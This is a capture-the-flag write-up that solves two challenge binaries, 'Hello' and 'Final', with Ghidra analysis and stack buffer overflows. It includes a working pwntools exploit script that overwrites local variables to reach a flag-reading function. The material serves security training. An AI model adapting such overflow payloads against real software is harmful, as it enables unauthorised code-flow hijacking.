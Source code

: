 # Smokeys-Encore Hello

On running the hello binary it asks the user to enter their name. On entering a dummy name we just get a simple greeting.

![alt-text](images/console-init-output.png)

So let's let Ghidra analyze the file. 

Upon opening the hello file in Ghidra and having it analyze the binary we can see two functions that look interesting.
main and read_flag.
Well read_flag looks like it calls the flag variable from the environment and then prints it to the terminal
so let's take a look at main and try to see how we can get the program to call read_flag.

![alt-text](images/read-flag.png)

In the main function, we can see that read_flag is called when the local_c variable is not zero. 
We can also see that what we enter when prompted for a name is stored at a memory location right next to local_c
in a variable local_48.

![alt-text](images/hello-main.png)

local_c is set to zero before the program takes a user input so as long as we can override that we'll be golden.
While local_48 is only supposed to contain 60 characters there doesn't seem to be any checks in place to stop us from entering more. 
So let's run the program again and try to do a buffer overflow by just entering more than 60 characters.

And sure enough, there's our flag.

![alt-text](images/hello-flag.png)

# Smokeys-Encore Final

For the Final binary, it looks like we've got a similar setup but a bit more complicated. 
The reaf_flag function is now called inside of a nested dialogue tree. 
That'd be very annoying to navigate through every time we want to enter something 
so I'll be using the provided pwntools template:

```
#!/usr/bin/env python3
# To run locally, just run this python program
# To run on remote, pass the string `REMOTE` as an argument

context.log_level = "debug"

BIN_PATH = "./PATH_OF_BINARY_HERE"
HOST = "REMOTE_HOST_HERE"
PORT = PORT_NUMBER_HERE


p = process(BIN_PATH) if not args.REMOTE else remote(HOST, PORT)

# Read one line of content from the binary: 
#   data = p.recvline()
# Write one line of content to the binary:
#   p.sendline(bytes_here)

# Example:
# p.sendline(b"3")
# This sends the string "3" to the binary, just as if you had typed 3 and pressed enter


p.interactive()
```

First things first we need to navigate through this tree.
We can do this by just adding the lines 
```
p.sendline("3")
p.sendline("2")
```

Now that we're in the right place we can start trying to do a buffer overflow.
There are two more prompts here, the first one asking for our credit card number doesn't seem like it'll affect anything
so we can add a line to the pwntools program to blitz past that as well.

```
p.sendline("randomnumber")
```

And now we're in the interesting bit.
Next, the binary asks us to input our social security number

![alt-text](images/final-func.png)

and it stores the user input directly above the three variables we need to change. 

![alt-text](images/final=vars.png)

Again there's no check to make sure the user enters a number of the appropriate length so we can just start putting in numbers.
But this time we've got python to do it for us. 

Firstly we need to fill up the 104 byte length local_88 variable.
Then we'll need to set local_20 to 1.
Then local_1c to 0x1337.
And finally, local_18 to 0xdeadbeef.
The final pwntools statement to satisfy all these requirements looks like this:

```
p.send(104 * b"1" + p32(1) + p32(0x1337) + p64(0xdeadbeef))
```

And all of our python code together looks like this: 

```
p.sendline("3")
p.sendline("2")
p.sendline("randomnumber")
p.send(104 * b"1" + p32(1) + p32(0x1337) + p64(0xdeadbeef))

p.interactive()
```

and by running the python file with a remote connection we get an output that includes the flag

![alt-text](images/final-final.png)
